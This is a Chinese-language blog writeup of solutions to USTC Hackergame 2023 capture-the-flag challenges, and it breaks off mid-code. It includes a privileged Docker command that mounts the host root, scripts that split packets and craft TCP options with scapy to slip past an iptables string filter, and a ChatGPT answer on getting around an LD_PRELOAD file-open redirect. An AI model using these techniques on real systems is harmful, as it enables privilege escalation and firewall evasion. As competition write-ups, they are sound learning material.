




这是本人第四次参加USTC的hackergame了233，有赖今年许多题目正好和运维和~~环境学~~知识相关和~~ChatGPT的横空出世~~，本人的排名总算第一次进了前100。

也欢迎各位来我的博客上查看这篇文章：[https://sparktour.me/2023/11/04/ustc-hackergame-2023-writeup/](https://sparktour.me/2023/11/04/ustc-hackergame-2023-writeup/)

## Hackergame 启动

```
https://cnhktrz3k5nc.hack-challenge.lug.ustc.edu.cn:13202/?similarity=
```

注意到网页有一个`similarity=`的param，提交`similarity=100`即可

## 猫咪小测

> 想要借阅世界图书出版公司出版的《A Classical Introduction To Modern Number Theory 2nd ed.》，应当前往中国科学技术大学西区图书馆的哪一层？**（30 分）**

在USTC的图书馆网站上找书名，即可看到这本书在“西区外文书库”。再google一下就能发现书库在12层：


> 今年 arXiv 网站的天体物理版块上有人发表了一篇关于「可观测宇宙中的鸡的密度上限」的论文，请问论文中作者计算出的鸡密度函数的上限为 10 的多少次方每立方秒差距？

google后找到了 [你见过哪些极品论文？ - 知乎 (zhihu.com)](https://www.zhihu.com/question/20337132/answer/3023506910)，里面直接提到了是23次方。

> 为了支持 TCP BBR 拥塞控制算法，在**编译** Linux 内核时应该配置好哪一条内核选项？**（20 分）**

google “tcp bbr kernel config”能找到`CONFIG_TCP_CONG_BBR`。

> 🥒🥒🥒：「我……从没觉得写类型标注有意思过」。在一篇论文中，作者给出了能够让 Python 的类型检查器 ~~MyPY~~ mypy 陷入死循环的代码，并证明 Python 的类型检查和停机问题一样困难。请问这篇论文发表在今年的哪个学术会议上？

搜`mypy python type checking "halting problem"`，就能找到 https://drops.dagstuhl.de/opus/volltexte/2023/18237/pdf/LIPIcs-ECOOP-2023-44.pdf ，url里就能看到会议叫`ECOOP`了。

## 更深更暗

打开elements搜`flag{`即可



## 旅行照片 3.0

1. **你还记得与学长见面这天是哪一天吗？（格式：yyyy-mm-dd）**吃拉面的照片可以看出“学长”去的是`STATPHYS28` （https://statphys28.org/），一天一天试可以试出是`2023-08-10`

2. **在学校该展厅展示的所有同种金色奖牌的得主中，出生最晚者获奖时所在的研究所缩写是什么？**找东京大学获得诺贝尔奖的教授，可以找到比较年轻的那位是[Takaaki Kajita - Wikipedia](https://en.wikipedia.org/wiki/Takaaki_Kajita)，工作研究所是`ICRR`

3. **帐篷中活动招募志愿者时用于收集报名信息的在线问卷的编号（以字母 S 开头后接数字）是多少？**文中提到了“*当你们走到一座博物馆前时， 马路对面的喷泉和它周围的景色引起了你的注意。*”，在google地图上的上野站附近看了一下之后发现这个喷泉比较接近“上野公园大喷水”，搜索“`上野公園 竹の台広場 (噴水広場) 2023-08-10`”可以搜到[４年ぶりの開催！「全国梅酒まつりin東京2023」を上野公園噴水広場にて開催！北から南まで日本全国の酒蔵が造る美味しい「梅酒」１７０種類以上を飲み比べ。｜一般社団法人梅酒研究会のプレスリリース (prtimes.jp)](https://prtimes.jp/main/html/rd/p/000000035.000021306.html)，里面就能找到志愿者的的报名网页`https://ws.formzu.net/dist/S495584522/`。

   

4. **学长购买自己的博物馆门票时，花费了多少日元？**[东京国立博物馆](https://www.tnm.jp/modules/r_free_page/index.php?id=113#ticket)大学生免费（0）

5. **学长当天晚上需要在哪栋标志性建筑物的附近集合呢？**查[STATPHYS28的网站](https://statphys28.org/banquet.html)能找到在集合地点在`安田讲堂`。

6. **进站时，你在 JR 上野站中央检票口外看到「ボタン＆カフリンクス」活动正在销售动物周边商品，该活动张贴的粉色背景海报上是什么动物（记作 A，两个汉字）？ 在出站处附近建筑的屋顶广告牌上，每小时都会顽皮出现的那只 3D 动物是什么品种？（记作 B，三个汉字）？（格式：A-B）**搜`ボタン＆カフリンクス 上野駅`能搜到这个[instagram post](https://www.instagram.com/p/Cvrw425vK_n/)，里面是`熊猫`；用google lens识别最后一张图能搜到这个装饰在`Super Mario Bros.Shop `，在渋谷駅旁边，搜`渋谷駅 3d 动物`能找到动物是`秋田犬`

   

## 赛博井字棋

理论上跟正确实现算法的AI下棋，最多只能平局。因此翻阅js，注意到了它发送棋盘的请求是阻塞的：

```js
    async run() {
      if (this.isRunning || this.queue.length === 0) {
        return;
      }
      this.isRunning = true;
      const { func, context, args, resolve, reject } = this.queue.shift();
      try {
        const result = await func.apply(context, args);
        resolve(result);
      } catch (error) {
        reject(error);
      }
  
      this.isRunning = false;
      this.run();
    }
```

那猜测直接快速发下三个连起来的棋位置的请求，就能赢了：

```python
# convert above curl to python requests
url = 'http://202.38.93.111:10077'
# create new session
s = requests.Session()
cookies = {'session': '.eJyr...'}
# post with cookie and data {"x":"1","y":"1"}
# 发送的足够快就行
headers = {'Content-Type': 'application/json'}
r = s.post(url, cookies=cookies, headers=headers, data='{"x":"0","y":"1"}')
r = s.post(url, cookies=cookies, headers=headers, data='{"x":"1","y":"1"}')
r = s.post(url, cookies=cookies, headers=headers, data='{"x":"2","y":"1"}')
print(r.text)
# {"board":[[1,-1,0],[0,-1,0],[0,-1,0]],"msg":"flag{I_can_eat_your_pieces_7843afed75}"}
```

## 奶奶的睡前 flag 故事

题目提到了`谷歌的『亲儿子』`(pixel)，`连系统都没心思升级`，`截图`。搜索`pixel screenshot cve`能搜到[NVD - CVE-2023-35671 (nist.gov)](https://nvd.nist.gov/vuln/detail/CVE-2023-35671)，即pixel的截图程序不会把裁剪的部分从数据里删除，有隐私泄漏风险。随后在网上找到了[acropalypse poc](https://acropalypse.app/)的网页实现，把图传上去，设置长宽为1080*2400即可恢复：


## 组委会模拟器

第一次请求就会拿到这1000条消息的列表，然后根据消息发出的delay发撤回的请求就行：

```python
url = 'http://202.38.93.111:10021/api/getMessages'
def send_callback(msgid):
    url = "http://202.38.93.111:10021/api/deleteMessage"
    headers = {'Content-Type': 'application/json'}
    data = {'id': msgid}
    response = requests.post(url, cookies=cookies, headers=headers, data=json.dumps(data))
    # print resp
    print(response.text)
    
# create new request session
session = requests.Session()
response = session.post(url, cookies=cookies)
# dump to json
resp_json = response.json()

start_time = time.time()
item_id = 0
for item in resp_json['messages']:
    # 计算自上一个条目以来已经过去的时间
    elapsed_time = time.time() - start_time
    # 计算还需要等待多长时间
    delay = item['delay'] - elapsed_time
    if delay > 0:
        time.sleep(delay)
    text = item['text']
    match = re.search(r'hack\[([a-zA-Z]*)\]', text)
    if match:
        print(delay, text)
        # id is the index of the message
        id = item_id
        send_callback(id)
    item_id += 1

# sleep 3 seconds
time.sleep(3)
flag_resp = session.post('http://202.38.93.111:10021/api/getflag', cookies=cookies)
print(flag_resp.text)
#{"flag":"flag{Web_pr0gra_mm1ng_9386f773ee_15fun}","success":true}
```

## 虫

听起来很像是解SSTV的题目，在网上找了[https://github.com/colaclanth/sstv.git](https://github.com/colaclanth/sstv.git)直接转换就能解出了：


## JSON ⊂ YAML?

### JSON ⊄ YAML 1.1

在[What valid JSON files are not valid YAML 1.1 files? - Stack Overflow](https://stackoverflow.com/questions/21584985/what-valid-json-files-are-not-valid-yaml-1-1-files)找到了`12345e999`。

### JSON ⊄ YAML 1.2

翻到了[I accidentally used YAML.parse instead of JSON.parse and it worked | Hacker News (ycombinator.com)](https://news.ycombinator.com/item?id=30052128)和[YAML Ain’t Markup Language (YAML™) Version 1.2](https://yaml.org/spec/1.2-old/spec.html#id2759572)，他们提到了：

> JSON's [RFC4627](http://www.ietf.org/rfc/rfc4627.txt) requires that [mappings](https://yaml.org/spec/1.2-old/spec.html#mapping//) [keys](https://yaml.org/spec/1.2-old/spec.html#key//) merely “SHOULD” be [unique](https://yaml.org/spec/1.2-old/spec.html#equality//), while YAML insists they “MUST” be. Technically, YAML therefore complies with the JSON spec, choosing to treat duplicates as an error. In practice, since JSON is silent on the semantics of such duplicates, the only portable JSON files are those with unique keys, which are therefore valid YAML files.

那构造一个有两个一样的key的json就行：

```json
{"a": 1,"a": 1}
```

## Git? Git!

```shell
# git reflog
ea49f0c (HEAD -> main) HEAD@{0}: commit: Trim trailing spaces
15fd0a1 (origin/main, origin/HEAD) HEAD@{1}: reset: moving to HEAD~
505e1a3 HEAD@{2}: commit: Trim trailing spaces
15fd0a1 (origin/main, origin/HEAD) HEAD@{3}: clone: from https://github.com/dair-ai/ML-Course-Notes.git

# git reset --hard 505e1a3
```

一个一个找就能看到README.md里有`  <!-- flag{TheRe5_@lwAy5_a_R3GreT_pi1l_1n_G1t} -->`了

## HTTP 集邮册

```
[100, 200, 206, 304, 400, 404, 405, 412, 413, 414, 416, 505]
```

### 没有状态……哈？（非预期）

用CONNECT/TRACE似乎都可以做到（做的时候想起来了“HTTP代理”）

```
CONNECT / \r\nHost: a.com\r\n\r\n
```

### 5/12 种状态码

#### [`100 Continue`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/100)

```
GET / HTTP/1.1\r\n
Expect: 100-continue\r\n
Host: example.com\r\n\r\n
```

#### [`200 OK`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/200)

```
GET / HTTP/1.1\r\n
Host: example.com\r\n\r\n
```

#### [`206 Partial Content`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/206)

读取一个文件的部分区间

```
GET / HTTP/1.1\r\n
Host: example.com\r\n
Range: bytes=1-2\r\n
Connection: close\r\n\r\n
```

#### [`304 Not Modified`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/304)

自某个etag后没有修改过

```
GET / HTTP/1.1\r\n
Host: example.com\r\n
If-None-Match: "64dbafc8-267"\r\n
Connection: close\r\n\r\n
```

#### [`400 Bad Request`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/400)

HTTP换成乱七八糟的东西就行

```
GET / FOO/1.1\r\n
Host: example.com\r\n
Connection: close\r\n\r\n
```

#### [`404 Not Found`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/404)

```
GET /notexist HTTP/1.1\r\n
Host: example.com\r\n\r\n
```

#### [`405 Method Not Allowed`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/405)

在不支持POST的地方POST

```
POST / HTTP/1.1\r\n
Host: example.com\r\n
Connection: close\r\n\r\n
```

#### [`412 Precondition Failed`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/412)

和304类似，但时间取一个很久以前（文件创建之前）的时间

```
GET /index.html HTTP/1.1\r\n
Host: example.com\r\n
If-Unmodified-Since: Sun, 15 Apr 2018 20:00:00 GMT\r\n\r\n
```

#### [`413 Payload Too Large`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/413)

设置一个过长的`Content-Length`

```
GET / HTTP/1.1\r\n
Content-Length: 10000000000\r\n
Host: example.com\r\n\r\n
```

#### [`414 URI Too Long`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/414)

设置一个过长的URL（在默认配置里是大于8192字节的样子）

```
GET /long-url-over-8000-words/ HTTP/1.1\r\n
Host: example.com\r\n\r\n
```

#### [`416 Range Not Satisfiable`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/416)

和206类似，但取一个不存在的range

```
GET / HTTP/1.1\r\n
Host: example.com\r\n
Range: bytes=999-9999\r\n
Connection: close\r\n\r\n
```

#### [`505 HTTP Version Not Supported`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/505)

发服务器不认识的http版本

```
GET / HTTP/114514\r\n
Host: example.com\r\n
Connection: close\r\n\r\n
```

## Docker for Everyone

用`--privileged`启动docker并把根目录挂进docker找就可以了：

```shell
docker run -it -v /:/host-root —-privileged alpine
```


## 惜字如金 2.0

生成`cod_dict`的那部份每行只有23个char，那理论上每行只要加一个char就行了，然后硬凑就可以（可以通过前面的`flag{`和后面的`}`号来寻找缺的部分大概应该插入在什么位置。

## 高频率星球

先把asciinema的录制文件输出到文本，然后替换掉那些重叠和看起来像是乱码的部分，可以用js检查器检查一下（或者用asciinema录制最开头的时候提到的sha256）

```
asciinema  play /Users/cyf/Downloads/hackergame-23/asciinema_restore.rec  > output.txt
```

检查好了运行js即可：

```
#node op.js
flag{y0u_cAn_ReSTorE_C0de_fr0m_asc11nema_3db2da1063300e5dabf826e40ffd016101458df23a371}
```

## 小型大语言模型星球

### You Are Smart

```
# input
John likes to repeat what other saying. One day, Julia says "you are smart" to john, and John replied:
```

```
# reply
"you are smart, too". They both laugh and hug each other.

John and Julia have been playing together all day, and they are
👏👏👏 flag1: flag{I-thINk-yOU-@rE-rEaLlY-rE4L1Y-Sm@RT} 👏👏👏
```

### Accepted

从[TinyStories-train.txt · roneneldan/TinyStories at main (huggingface.co)](https://huggingface.co/datasets/roneneldan/TinyStories/blob/main/TinyStories-train.txt)下载一下train的训练集，然后在训练集里找出`accepted`前面的8个char，一个一个输入模型试。

```python
from transformers import AutoModelForCausalLM, AutoTokenizer, GenerationConfig
import torch
import pickle
from tqdm.notebook import trange, tqdm

device = "cuda:0" if torch.cuda.is_available() else "cpu"
model = AutoModelForCausalLM.from_pretrained('./TinyStories-33M')
model = model.to(device)
tokenizer = AutoTokenizer.from_pretrained("./TinyStories-33M")

# load counts_lst.pkl
with open('./counts_lst.pkl', 'rb') as f:
    counts_lst = pickle.load(f)

for i in trange(len(counts_lst)):
    prompt = counts_lst[i][0][0:7]
    input_ids = tokenizer.encode(prompt, return_tensors="pt").to(device)
    output = model.generate(input_ids, num_beams=1, max_new_tokens=30,pad_token_id=tokenizer.eos_token_id)
    output_text = tokenizer.decode(output[0], skip_special_tokens=True)
    # if output contains "accepted", print it
    if "accepted" in output_text:
        print(prompt)
        print(output_text)
        print()
```

能找到以下的输入输出对：

```
atively
atively accepted the challenge.

The little girl was so excited. She had never been asked to do something like this before. She was determined to succeed

Apology
Apology accepted. She was so happy and excited. She thanked the old man and ran off to show her friends her new toy.

The moral of
```

随意输入一个进网页即可：

```
# input
atively

# reply
accepted the challenge.

The little girl was so excited. She had never been asked to do something like this before. She was determined to succeed
🎉🎉🎉 flag2: flag{yOU-@R3-@cCepT3D-tO-C0nt1Nu3-THe-g4M3} 🎉🎉🎉
```

## 流式星球

从题目给的转换脚本来看，转换脚本把输入的视频转换成了一个n\*1的numpy数组，因此可以写一个函数从这个数组里转换回帧（注意颜色通道还要占用\*3）。这个脚本是笔者在写了框架之后请chatgpt写的，效果意外的不错（至少能用）

```python
import cv2
import numpy as np


# Path to the binary file
binary_file_path = "video.bin"

# Reading the content of the binary file
with open(binary_file_path, "rb") as f:
    video_data = np.frombuffer(f.read(), dtype=np.uint8)

def restore_video(data, frame_count, width, height, output_file="restored_video.mp4", frame_rate=10):
    """
    Try to restore the video from the given data using the specified parameters.

    :param data: NumPy array containing the video data
    :param frame_count: Number of frames in the video
    :param width: Width of each frame
    :param height: Height of each frame
    :param output_file: Name of the output video file
    :return: None
    """
    # Calculate the total number of pixels in the video
    total_pixels = frame_count * width * height * 3
    
    # Check if we have enough data to fill the video
    if data.size < total_pixels:
        print(f"Not enough data to fill the video. Missing {total_pixels - data.size} pixels.")
        return
    
    # Trim the data to fit the video exactly
    print("data used percentage:", total_pixels / data.size * 100)
    data = data[:total_pixels]
    
    
    # Reshape the data to create the video frames
    frames = data.reshape((frame_count, height, width, 3))
    
    # Define the codec and create a video writer object
    fourcc = cv2.VideoWriter_fourcc(*"mp4v")
    out = cv2.VideoWriter(output_file, fourcc, frame_rate, (width, height))
    
    # Write each frame to the video file
    for i in range(frame_count):
        out.write(frames[i].astype(np.uint8))
    
    # Release the video writer object
    out.release()
    print("Video restored and saved to", output_file)
    # return first frame
    return frames.astype(np.uint8)

# Example usage: restore_video(video_data, 300, 640, 480)
# Note: The frame_count, width, and height parameters are just examples and need to be adjusted.

width = 640
frame_count=138
frame = restore_video(video_data_padded, frame_count,width , 510, frame_rate=10)
```

视频的长宽需要自己猜，只要宽度猜的差不多了基本都能看出flag（感觉我猜的宽度似乎也不太对，不过已经能分辨出来了），可以从常见的视频长宽里一个一个测试（~~但没想到出题用的原始视频是竖着的，因此看起来比较怪）~~。


```
flag{it-could-be-easy-to-restore-video-with-haruhikage-even-without-metadata-0F7968CC}
```

## 低带宽星球

### 小试牛刀

转换成svg就行（但依然达不到第二问50byte的要求）：

```svg
<svg><path fill="#d92034" d="M0 0h380v1024H0z"/><path fill="#f1885d" d="M380 0h317v1024H380z"/><path fill="#d50415" d="M697 0h327v1024H697z"/></svg>
```

笔者尝试过的几种常见的无损压缩格式输出的图片大小：

| Type        | Size  |
| ----------- | ----- |
| PNG         | ~2kb  |
| AVIF (AV1)  | ~2kb  |
| HEIF (HEVC) | 552b  |
| WEBP (VP8)  | 176b  |
| EPS         | ~300b |
| SVG         | 170b  |
| SVGZ (GZIP) | 120b  |

笔者当时也尝试了JPEG XL和他的前身[FLIF](https://en.wikipedia.org/wiki/Free_Lossless_Image_Format)，不过尝试都集中在了怎么让他用不同的分辨率编码亮度和颜色信息等，现在看来反而是研究imagemagick的[canvas](https://legacy.imagemagick.org/Usage/canvas/)指令比较符合题目的想法。

## Komm, süsser Flagge

### 我的 POST

iptables的string filter只在一个包内匹配，把PO和ST分开发就行。

```python
import socket

def send_http_request():
    # 创建一个socket对象
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    
    # 连接到服务器
    s.connect(("202.38.93.111", 18081))

    # 发送请求的第一部分
    request_part1 = "PO"
    s.sendall(request_part1.encode())

    # 发送请求的第二部分
    request_part2 = "ST / HTTP/1.1\r\nHost: 202.38.93.111:18080\r\nContent-Length: 100\r\n\r\k="
    s.sendall(request_part2.encode())

    # 接收响应
    response = s.recv(4096)
    print(response.decode())

    # 关闭socket
    s.close()

send_http_request()
```

### 我的 P

不知道为啥，用第一问的代码也过了。

### 我的 GET（非预期）

```
-A myTCP-3 -p tcp -m string --algo bm --from 0 --to 50 --string "GET / HTTP" -j ACCEPT
-A myTCP-3 -p tcp -j REJECT --reject-with tcp-reset
```

这两行iptables的意思大概是只允许包前50个byte含有`GET / HTTP`的包通过，因此我们在SYN，SYNACK的时候都需要把`GET / HTTP`塞进包里面。笔者尝试用`scapy`构造了TCP包。

最开始笔者打算用HTTP Pipelining，在发SYNACK的时候直接把GET和POST一起发过去，不过发现go的http库似乎不太支持这样的行为，只能返回第一个GET的结果，因此后来尝试了把`GET / HTTP`塞进TCP Options里（笔者也尝试过塞IP Options里，不过option似乎会被链路上的某些路由器丢掉，所以就改用了TCP Options了），这样倒也不会让那个go程序把误认为我在GET了。

```python
from scapy.all import *
import random
# 设置目标IP和端口
sport = 13377
dport = 18082
src = "SRC-IP"
dst = "202.38.93.111"
iface = "eth0"

pld = b"GET / HTTP"
tcpopt = b"\xfa%s%s" % ((len(pld)+2).to_bytes(), pld) # length 12

ether = Ether(type=0x800, dst="MAC ADDR", src="MAC ADDR")
ip = IP(src=src, dst=dst)

seqstart = random.randint(1000,5000)

# 构建并发送SYN包
SYN = TCP(sport=sport, dport=dport, flags='S', seq=seqstart)
xsyn = ether / ip / SYN / "GET / HTTP"
packet = xsyn.build()
sendp(packet, iface=iface, verbose=0)

# 直接接收从目标IP地址返回的第一个包
syn_ack = sniff(iface=iface, filter=f"ip src {dst}", count=1, timeout=5)
if not syn_ack:
    print("SYN-ACK not received.")
    sys.exit()

syn_ack = syn_ack[0]
print(syn_ack)
# 构建并发送ACK包
ACK = TCP(sport=sport, dport=dport, flags='A', seq=syn_ack[TCP].ack, ack=syn_ack[TCP].seq + 1, options=[(66, "GET / HTTP"), ("EOL", None)])
http_payload = "GET / HTTP/1.1\r\nHost: a\r\n\r\nPOST / HTTP/1.1\r\nX-A: GET / HTTP\r\nHost: srv\r\nContent-Length: 15\r\n114514:asdfgh==\r\n\r\n"
xack = ether / ip / ACK / http_payload
sendp(xack.build(), iface=iface, verbose=1)

```

在运行之前可能需要用iptables丢掉客户端往服务端发的RST和服务端往客户端发的RST，以免让客户端发出的reset（检测到不规范的tcp包时客户端会发出）影响服务端，可参考[linux - How to make all outgoing RST drop - Stack Overflow](https://stackoverflow.com/questions/13215135/how-to-make-all-outgoing-rst-drop)

## 为什么要打开 /flag 😡

### LD_PRELOAD, love!

根据题目本身的提示，这题可能和出题人编译的那个so文件被加进了`LD_PRELOAD`有关，那我们提交上去的程序刻意无视他就行。*这道题由于笔者不太懂系统调用，因此这样问了chatgpt*：

````
```
stage1.so的代码
```
我的CTF比赛里有一道题，主办方提供了一个stage1.so(上方代码），把打开/flag的请求都定向到/fakeflag了，这是dockerfile：
```
COPY --from=builder /lib.so /stage1.so
ENV STAGE=1
RUN echo "I'll not let you open /flag again!" > /fakeflag
RUN echo "Upload your binary to server to get real flag!" > /flag
```
主办方提示这道题可能和LD_PRELOAD有关。你能帮我写一个linux ELF文件，来做到这点以及读一下flag的内容并打印吗。请注意，我只能上传一个ELF文件到主办方的这个docker执行，而且我没有办法在它的shell里设置任何LD变量。
````

chatgpt的回答：

````
由于您提到无法在主办方的Docker环境中设置任何LD变量，您需要使用一种不依赖于环境变量的方法来绕过`stage1.so`的限制。幸运的是，有一种方法可以做到这一点：您可以直接在ELF文件中修改动态链接器的搜索路径。

下面是一种可能的解决方案：

1. 编写一个C程序，该程序尝试打开并读取`/flag`文件的内容。
2. 在C程序中，添加一个构造函数（使用`__attribute__((constructor))`），在主函数执行之前调用这个函数。在这个构造函数中，使用`dlopen`和`dlsym`来直接调用原始的文件打开和读取函数，绕过`stage1.so`的重定向。
3. 编译这个程序，生成一个ELF文件。
4. 使用`patchelf`或其他工具修改ELF文件，将动态链接器的搜索路径设置为一个不存在的路径。这样，当您的程序尝试加载`stage1.so`时，它将找不到该库，从而绕过了重定向。

下面是一个示例C程序，它尝试打开并读取`/flag`文件的内容，并在构造函数中绕过`stage1.so`的限制：

```c
#include <stdio.h>
#include <stdlib.h>
#include <dlfcn.h>

__attribute__((constructor))
void preload() {
